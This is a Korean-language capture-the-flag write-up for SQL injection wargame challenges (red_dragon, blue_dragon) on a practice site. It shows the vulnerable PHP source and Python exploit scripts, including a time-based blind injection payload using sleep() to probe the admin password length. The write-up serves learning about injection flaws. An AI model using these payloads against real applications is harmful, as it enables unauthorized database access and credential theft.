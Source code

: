 ```python
import requests

url = "https://los.rubiya.kr/chall/red_dragon_b787de2bfe6bc3454e2391c4e7bb5de8.php"

cookie = {'PHPSESSID' : 'cookie 값'}

left = 10 ** 8
right = 10 ** 9
while left<=right:
  mid = (left+right)//2

  param= {'id':"'||no>%23", 'no':f'%0a{mid}'}
  res = requests.get(url=url+ f'?id={param['id']}&no={param["no"]}', cookies=cookie)
  if "Hello admin" in res.text:
    left = mid + 1
  else:
    right = mid - 1
  print(left,right)
print(left,right)
```

## Blue_dragon
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\./i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\./i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_blue_dragon where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(preg_match('/\'|\\\/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/\'|\\\/i', $_GET[pw])) exit("No Hack ~_~");
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_blue_dragon where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("blue_dragon");
  highlight_file(__FILE__);
?>
```
### exploit
이전 문제들과 비슷한 유형이다. 하지만 쿼리를 질의하고 나서 필터링을 하기 때문에 Timebased SQL 취약점이 발생한다.<br>
sleep함수를 사용해서 preg_match가 실행되기 전에 지연시킨다.
```python
import requests
import time

url = "https://los.rubiya.kr/chall/blue_dragon_23f2e3c81dca66e496c7de2d63b82984.php"

cookie = {'PHPSESSID' : 'cookie 값'}

for i in range(100):
    print(i)
    start = time.time()
    param = {'pw': f"' or if(id='admin' and length(pw)={i},sleep(2),0)-- -"}
    res = requests.get(url=url, params=param, cookies=cookie)
    end = time.time()
    if end - start >= 2:
        print(i)
```